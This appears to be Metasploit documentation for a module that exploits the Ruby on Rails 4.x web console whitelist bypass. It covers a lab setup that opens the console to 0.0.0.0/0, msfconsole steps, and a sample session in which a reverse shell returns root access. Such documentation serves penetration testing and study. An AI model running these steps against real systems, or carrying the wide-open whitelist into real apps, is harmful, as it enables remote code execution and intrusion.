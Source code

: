 ## Description

 This module exploits an IP whitelist bypass vulnerability in the developer web console included with Ruby on Rails 4.0.x and 4.1.x.
 This module will also achieve code execution on Rails 4.2.x if the attack is launched from a whitelisted IP range.

## Verification Steps

**Prerequisites:**

```
gem install rails -v 4.2.6
rails new taco
cd taco
vim config/environments/development.rb
```

Add the following line just before the final `end` tag:

```config.web_console.whitelisted_ips = %w(0.0.0.0/0)```


```
bundle
rails server
```

**Installing nodejs:**

```
sudo apt-get install nodejs
```

**Launch msfconsole:**

1. Do: ```use exploit/multi/http/rails_web_console_v2_code_exec```
2. Do: ```set RHOST [IP]```
3. Do: ```set RPORT [Port]```
4. Do: ```run```

## Scenarios

### Rails version 4.2.6

```
msf > use exploit/multi/http/rails_web_console_v2_code_exec 
msf exploit(rails_web_console_v2_code_exec) > set RHOST 192.168.0.106
msf exploit(rails_web_console_v2_code_exec) > set RPORT 35678
msf exploit(rails_web_console_v2_code_exec) > run

[*] Started reverse TCP handler on 192.168.0.102:4444
[*] Sending payload to /__web_console/repl_sessions/d89c2f96387f4b9dd612c0abb7c06577
[*] Command shell session 1 opened (192.168.0.102:4444 -> 192.168.0.106:35678) at 2017-04-07 04:13:52 +0800

id
uid=0(root) gid=0(root) groups=0(root)
```
